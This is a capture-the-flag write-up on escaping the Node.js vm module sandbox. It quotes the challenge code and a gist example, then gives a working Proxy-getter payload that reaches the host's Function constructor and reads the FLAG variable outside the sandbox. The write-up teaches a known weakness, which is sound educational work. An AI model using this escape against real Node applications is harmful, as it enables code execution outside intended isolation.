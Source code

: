 ```yaml
---
layout: default
title: NodeJS-vm-escape
---
```


In this challenge we use this https://gist.github.com/jcreedcmu/4f6e6d4a649405a9c86bb076905696af.

This is the vm code:
```js
// vm with empty context
data = vm.runInNewContext(
    code,                                   // Executes user code in new context
    vm.createContext(Object.create(null)),  // Creates an empty context
    { timeout: 200 }                        // Maximum execution time
);
```

The problem we facing is that we are in an empty context, so when trying to get `FLAG`, we gets nothing, because it doesn't recognize it.

![FLAG undefined](./images/NodeJS-vm-escape_FLAG_undefined.png)

Then, we saw this example in the gist I supplied before:
```js
////////
// Even *reading* fields from returned data can be exploited, since
// the call stack when the proxy function is executed contains frames
// with references back to the real function:

const code4 = `new Proxy({}, {
  get: function(me, key) { (arguments.callee.caller.constructor('console.log(sauce)'))() }
})`;

data = vm.runInContext(code4, vm.createContext(Object.create(null)));
// The following executes the getter proxy function, and
// prints out 'laser' despite no console.log immediately present.
if (data['some_key']) {

}
```

This is a trap that gets triggered when `data` is being accessed, the object we set the trap to.

In our case, right after the `vm` it executes these lines:
```js
if (data !== undefined) {
    if (data['result'] !== undefined) {
        result = {result: data['result']};
    } else {
        result = {result: data};
    }
} 
```
Which simply can trigger the trap!


Then, after we triggered the trap, **out of the vm**, we can climb up to the global scope and get access to all of the variables, in the example he access `sauce`, but we're going to access `FLAG`.

So, this will be our payload:
```js
new Proxy({}, {
  get: function(me, key) {
    // Try to get the caller
    const cc = arguments.callee.caller;
    if (cc != null) {
      // Execute the escape
      return (cc.constructor.constructor('return FLAG')());
    }
    return 'cc is null';  // Safe value to avoid Pug rendering errors
  }
});
```

![FINAL](./images/NodeJS-vm-escape_FINAL.png)

**Flag:** **_`NodeJS_vm_1s_n0t_a_s3cur1ty_m0dul3!!!`_**
